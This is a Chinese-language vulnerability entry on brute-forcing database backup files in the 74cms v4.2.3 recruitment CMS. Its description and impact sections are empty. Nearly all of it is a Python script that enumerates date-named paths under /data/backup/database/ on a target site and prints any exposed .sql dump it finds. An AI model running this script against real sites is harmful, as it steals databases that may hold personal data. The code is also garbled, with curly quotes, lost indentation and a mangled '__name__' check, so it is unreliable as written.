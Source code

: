 ```yaml
---
title: 74cms v4.2.3 备份文件爆破
id: zhfly2793
---
```


# 74cms v4.2.3 备份文件爆破

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

```
# -*- coding: utf-8 -*-
-------------------------------------------------
   File Name：     74cms_MysqlBak
   Description :
   Author :       CoolCat
   date：          2019/1/5
-------------------------------------------------
   Change Activity:
                   2019/1/5:
-------------------------------------------------
"""
__author__ = 'CoolCat'

import requests

def getBak(time):

print("[running]:正在查询" + time + “是否存在备份”)

dir = time + “_1”

filename = dir + “_1.sql”

url = target + “//data/backup/database/” + dir +"/"+ filename

session = requests.Session()

headers = {“Accept”: “text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8”,

“Upgrade-Insecure-Requests”: “1”,

“User-Agent”: “Mozilla/5.0 (Android 9.0; Mobile; rv:61.0) Gecko/61.0 Firefox/61.0”,

“Connection”: “close”, “Accept-Language”: “en”, “Accept-Encoding”: “gzip, deflate”}

cookies = {“think_language”: “en”, “think_template”: “default”, “PHPSESSID”: “6d86a34ec9125b2d08ebbb7630838682”}

response = session.get(url=url, headers=headers, cookies=cookies)

if response.status_code == 200:

print(url)

exit()

if **name** == ‘**main**’:

```
global target
target = "http://www.target.com"

for year in range(2017, 2020):
    for mouth in range(1, 13):
        for day in range(1, 31):
            time = (str(year) + str('%02d' % mouth) + str('%02d' % day))
            getBak(time) 
``` 
```
